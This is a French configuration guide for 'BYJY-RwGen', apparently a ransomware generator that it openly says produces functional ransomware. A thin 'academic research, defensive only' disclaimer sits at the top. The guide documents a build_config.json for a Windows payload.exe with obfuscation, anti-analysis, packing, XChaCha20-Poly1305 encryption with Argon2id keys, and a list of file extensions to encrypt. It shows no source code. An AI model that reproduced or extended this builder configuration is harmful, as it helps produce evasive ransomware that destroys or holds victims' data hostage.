 # BYJY-RwGen Configuration Guide Complet

## 🔬 Outil de Recherche Académique - Analyse Défensive Uniquement

**⚠️ AVERTISSEMENT IMPORTANT ⚠️**
Cet outil génère du ransomware fonctionnel à des fins de recherche académique uniquement.
Utilisation autorisée uniquement dans des environnements isolés pour le développement de défenses.

---

## 1. Configuration de Build (`build_config.json`)

### Structure Complète
```json
{
  "source_dir": "src",                    // Répertoire source
  "output_dir": "dist",                   // Répertoire de sortie
  "main_executable": "payload.exe",       // Nom de l'exécutable
  "target_architecture": "x64",           // Architecture cible
  
  "compiler_flags": [                     // Flags de compilation
    "/O2",      // Optimisation niveau 2
    "/GL",      // Optimisation globale
    "/MT",      // Runtime statique
    "/DNDEBUG"  // Mode release
  ],
  
  "linker_flags": [                       // Flags de liaison
    "/SUBSYSTEM:WINDOWS",                 // Subsystem Windows
    "/ENTRY:mainCRTStartup",             // Point d'entrée
    "/LTCG"                              // Link Time Code Generation
  ],
  
  "obfuscation_level": "high",            // Niveau d'obfuscation
  "enable_anti_analysis": true,           // Anti-analyse activée
  "pack_executable": true,                // Empaquetage activé
  
  "encryption": {
    "algorithm": "xchacha20poly1305",     // Algorithme de chiffrement
    "key_derivation": "argon2id",         // Dérivation de clé
    "iterations": 10,                     // Itérations KDF
    "memory": 65536,                      // Mémoire KDF (KB)
    "parallelism": 4                      // Threads parallèles KDF
  },
  
  "target_extensions": [...],             // Extensions à chiffrer
  "excluded_paths": [...]                 // Chemins exclus
}
```
